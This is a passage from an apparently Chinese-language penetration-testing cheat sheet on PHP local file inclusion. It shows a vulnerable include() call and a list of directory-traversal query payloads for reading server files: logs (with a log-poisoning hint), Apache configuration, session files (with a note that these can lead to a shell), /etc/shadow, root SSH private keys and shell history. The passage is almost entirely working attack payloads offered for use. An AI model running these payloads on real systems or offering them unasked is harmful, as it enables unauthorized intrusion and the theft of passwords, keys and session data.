 （3）包含session文件

（4）包含日志文件

（5）包含/proc/self/environ

（6）包含上传的临时文件

（7）包含其他应用创建的文件，如数据库文件，缓存文件，应用日志等，需具体问题具体分析

### 常见利用方式

`<?phpinclude("inc/" . $_GET['file']); ?>`

- 包含同目录下的文件：

`?file=.htaccess`

- 目录遍历：

`?file=../../../../../../../../../var/lib/locate.db`

`?file=../../../../../../../../../var/lib/mlocate/mlocate.db`

（linux中这两个文件储存着所有文件的路径，需要root权限）

- 包含错误日志：
  `?file=../../../../../../../../../var/log/apache/error.log` 
  （试试把UA设置为“”来使payload进入日志）

- 获取web目录或者其他配置文件：

`?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf`

- 包含上传的附件：

`?file=../attachment/media/xxx.file`

- 读取session文件：

`?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7`

（session文件一般在`/tmp`目录下，格式为`sess_[your phpsessid value]`，有时候也有可能在`/var/lib/php5`之类的，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制session的值，也许你能够获得一个shell）

- 如果拥有root权限还可以试试读这些东西：

`/root/.ssh/authorized_keys`

`/root/.ssh/id_rsa`

`/root/.ssh/id_rsa.keystore`

`/root/.ssh/id_rsa.pub`

`/root/.ssh/known_hosts`

`/etc/shadow`

`/root/.bash_history`

`/root/.mysql_history`

`/proc/self/fd/fd[0-9]* (文件标识符)`

`/proc/mounts`

`/proc/config.gz`

- 如果有phpinfo可以包含临时文件：

参见http://hi.baidu.com/mmnwzsdvpkjovwr/item/3f7ceb39965145eea984284el


